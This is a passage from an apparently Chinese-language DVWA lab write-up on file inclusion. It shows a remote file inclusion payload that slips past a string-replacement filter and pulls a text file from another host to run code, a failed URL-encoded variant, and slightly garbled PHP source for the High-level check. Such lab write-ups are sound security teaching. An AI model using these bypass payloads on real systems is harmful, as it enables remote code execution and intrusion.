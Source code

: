 

2.远程文件包含



> [http://192.168.153.130/dvwa/vulnerabilities/fi/page=htthttp://p://192.168.5.12/phpinfo.txt](http://www.example.com/)



远程执行命令成功



[![1.png](http://image.3001.net/images/20161106/14784224607432.png!small)](http://image.3001.net/images/20161106/14784224607432.png)



> [http://192.168.153.130/dvwa/vulnerabilities/fi/page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%35%2e%31%32%2f%70%68%70%69%6e%66%6f%2e%74%78%74](http://www.example.com/)



经过编码后的url不能绕过替换规则，因为解码是在浏览器端完成的，发送过去的page参数依然是[http://192.168.5.12/phpinfo.txt](http://192.168.5.12/phpinfo.txt)，因此读取失败。



[![1.png](http://image.3001.net/images/20161106/14784224905493.png!small)](http://image.3001.net/images/20161106/14784224905493.png)



****High****

------------



服务器端核心代码



```
<php       
//Thepagewewishtodisplay      
$file=$_GET['page'];       
//Inputvalidation      
if(!fnmatch("file*",$file)&&$file!="include.php"){      
   //Thisisn'tthepagewewant!      
echo"ERROR:Filenotfound!";      1
exit;      1
}       1
>
```




可以看到，High级别的代码使用了fnmatch函数检查page参数，要求page参数的开头必须是file，服务器才会去包含相应的文件。



### ****漏洞利用****

